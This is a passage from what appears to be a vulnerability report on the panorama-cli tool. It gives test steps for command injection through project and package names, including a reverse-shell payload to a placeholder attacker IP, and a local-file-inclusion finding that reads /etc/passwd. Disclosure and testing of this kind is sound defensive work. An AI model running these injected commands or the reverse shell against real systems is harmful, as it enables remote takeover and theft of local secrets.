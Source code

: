 * Security Test Case:

    1. **Setup:** Install `panorama-cli` on a test system.
    2. **Test Case 1: Project Initialization Command Injection:**
        a. Execute: `panorama-cli init-project --name "vuln_project\`touch injected_init_project.txt\`"`
        b. Verify if `injected_init_project.txt` is created in the current directory.

    3. **Test Case 2: Package Creation Command Injection:**
        a. Navigate to a Panorama project directory.
        b. Execute: `panorama-cli create-package --name "vuln_package\`touch injected_create_package.txt\`"`
        c. Verify if `injected_create_package.txt` is created within the project directory.

    4. **Test Case 3: General Command Injection (using touch):**
        a. Execute: `panorama-cli init-project --name "test_project; touch /tmp/pwned"`
        b. Verify if `/tmp/pwned` is created.

    5. **Test Case 4: More impactful Command Injection (reverse shell - use with caution and in a controlled environment):**
        a. Prepare a listener on your attacker machine: `nc -lvp 4444`
        b. Execute: `panorama-cli init-project --name "test_project; bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1"` (Replace `<attacker_ip>` with your attacker machine IP).
        c. Check if a reverse shell connection is established on your attacker machine.

    If any of the `injected_.txt` files are created, or a reverse shell is established, it confirms the command injection vulnerability.

### 2. Local File Inclusion in `add-raw-model` command

* Vulnerability Name: Local File Inclusion in `add-raw-model` command
* Description:
    The `add-raw-model` command in `aws-panorama-cli` is vulnerable to local file inclusion (LFI). This vulnerability can be exploited via the `--model-local-path` option. If the `panorama-cli` tool does not properly sanitize the file path provided to `--model-local-path`, an attacker can read arbitrary files from the developer's local filesystem. The tool might process or include the file specified by the attacker without sufficient validation, potentially revealing sensitive information.

    **Steps to trigger the vulnerability:**
    1. Initialize a new Panorama project using `panorama-cli init-project`.
    2. Create a dummy descriptor file (`test_descriptor.json`).
    3. Execute the `add-raw-model` command, providing a path to a sensitive system file (e.g., `/etc/passwd` on Linux or `/etc/hosts` on macOS) as the `--model-local-path`:
       ```shell
       panorama-cli add-raw-model --model-asset-name sensitive_file_content --model-local-path /etc/passwd --descriptor-path test_descriptor.json --packages-path packages/accountXYZ-call_node-1.0
       ```

* Impact:
    Successful exploitation of the LFI vulnerability allows an attacker to:
    * **Read sensitive files:** Access configuration files, private keys, source code, and any other file accessible to the user running `panorama-cli`.
    * **Information Disclosure:** This information can be used for further attacks, such as gaining unauthorized access to AWS accounts, internal systems, or compromising intellectual property.
    * **Compromise Developer Environment:** Exposing sensitive data from the developer's machine can lead to broader security compromises.

